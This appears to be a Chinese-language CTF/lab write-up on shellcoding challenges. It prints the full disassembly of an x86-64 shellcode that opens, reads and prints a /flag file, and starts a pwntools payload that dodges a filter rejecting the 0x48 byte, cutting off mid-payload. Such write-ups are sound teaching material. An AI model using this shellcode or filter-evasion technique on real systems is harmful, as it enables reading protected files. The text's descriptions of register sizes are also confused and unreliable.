 ```python
```
```
   0:   48 b8 01 01 01 01 01 01 01 01   movabs rax, 0x101010101010101
   a:   50                      push   rax
   b:   48 b8 2e 67 6d 60 66 01 01 01   movabs rax, 0x1010166606d672e
  15:   48 31 04 24             xor    QWORD PTR [rsp], rax
  19:   48 89 e7                mov    rdi, rsp
  1c:   31 d2                   xor    edx, edx
  1e:   31 f6                   xor    esi, esi
  20:   6a 02                   push   0x2
  22:   58                      pop    rax
  23:   0f 05                   syscall 
  25:   48 89 c7                mov    rdi, rax
  28:   31 c0                   xor    eax, eax
  2a:   31 d2                   xor    edx, edx
  2c:   b6 04                   mov    dh, 0x4
  2e:   48 89 e6                mov    rsi, rsp
  31:   0f 05                   syscall 
  33:   6a 01                   push   0x1
  35:   5f                      pop    rdi
  36:   48 89 c2                mov    rdx, rax
  39:   48 89 e6                mov    rsi, rsp
  3c:   6a 01                   push   0x1
  3e:   58                      pop    rax
  3f:   0f 05                   syscall 
  41:   31 ff                   xor    edi, edi
  43:   6a 3c                   push   0x3c
  45:   58                      pop    rax
  46:   0f 05                   syscall
```
# level 4 过滤字符H ('\x48')
但是对64 位寄存器进行操作，或者处理QWORD 这种 64 位数据，就会在指令级别加上神奇的 REX，与之对应的，导致`\x48`的出现。

- 由于常规指令对16位寄存器和QWORD数据操作会在首部自动添加/x48,因此
   - **对 16 位寄存器 rax 等只能使用pop,push操作**
   - **对 8 位寄存器 eax 等，无限制**
```c
    for (int i = 0; i < shellcode_size; i++)
        if (((uint8_t*)shellcode_mem)[i] == 'H')
        {
            printf("Failed filter at byte %d!\n", i);
            exit(1);
        }
```

## orw 的 pop,push 实现【64 位寄存器】
> x64 系统中 push，pop 对应寄存器只能是 64 位。x86 同理

![https://github.com/12yhy3/skills-github-pages/blob/1/1.png?raw=true]
分析代码发现最后使用了** rdx 寄存器保存 shellcode **数据。
shellcode 执行之前寄存器状态如下：
![image.png](https://i-blog.csdnimg.cn/blog_migrate/cb44c301439ae25a4d78038ccb5379e5.png)
```
shellcode = asm('''
        push 0
        pop rsi
        push 0x67616C662F   # galf/  但是只能压入flag四字节【即galf】，不能用push完成路径赋值
                              #  可以参见call指令执行时候会把下一个指令压入栈中保存的特性，然后pop完成传参
        pop rdi
        push 0
        pop rdx
```